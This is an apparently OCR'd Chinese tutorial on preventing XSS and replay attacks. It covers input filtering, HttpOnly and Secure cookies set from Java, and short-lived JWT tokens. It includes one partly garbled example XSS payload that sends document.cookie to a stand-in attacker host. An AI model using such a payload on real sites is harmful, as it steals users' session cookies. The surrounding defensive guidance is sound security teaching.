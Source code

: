 
**如何防范XSS Attacks**


浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：


	<img src="x" /> a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"
	

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？
 - XSS攻击代码过滤
移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；
 - 采用HTTP-Only Cookies
通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；
如何在Java中设置cookie是HttpOnly呢？
Servlet 2.5 API 不支持 cookie设置HttpOnly
http://docs.oracle.com/cd/E17802_01/products/products/servlet/2.5/docs/servlet-2_5-mr2/
建议升级Tomcat7.0，它已经实现了Servlet3.0
http://tomcat.apache.org/tomcat-7.0-doc/servletapi/javax/servlet/http/Cookie.html
或者通过这样来设置：



		> //设置cookie response.addHeader("Set-Cookie", "uid=112; Path=/;

> HttpOnly");
> 
> //设置多个cookie response.addHeader("Set-Cookie", "uid=112; Path=/;
> HttpOnly"); response.addHeader("Set-Cookie", "timeout=30; Path=/test;
> HttpOnly");
> 
> //设置https的cookie response.addHeader("Set-Cookie", "uid=112; Path=/;
> Secure; HttpOnly");

		
在实际使用中，我们可以使FireCookie查看我们设置的Cookie 是否是HttpOnly；


**如何防范Replay Attacks**


所谓重放攻击就是攻击者发送一个目的主机已接收过的包，来达到欺骗系统的目的，主要用于身份认证过程。比如在浏览器端通过用户名/密码验证获得签名的Token被木马窃取。即使用户登出了系统，黑客还是可以利用窃取的Token模拟正常请求，而服务器端对此完全不知道，以为JWT机制是无状态的。
针对这种情况，有几种常用做法可以用作参考：
1、时间戳 +共享秘钥
这种方案，客户端和服务端都需要知道：
 - User ID
 - 共享秘钥


**客户端**



> auth_header = JWT.encode({  user_id: 123,  iat: Time.now.to_i,      #
> 指定token发布时间  exp: Time.now.to_i + 2   #
> 指定token过期时间为2秒后，2秒时间足够一次HTTP请求，同时在一定程度确保上一次token过期，减少replay attack的概率；
> }, "<my shared secret>") RestClient.get("http://api.example.com/",
> authorization: auth_header)
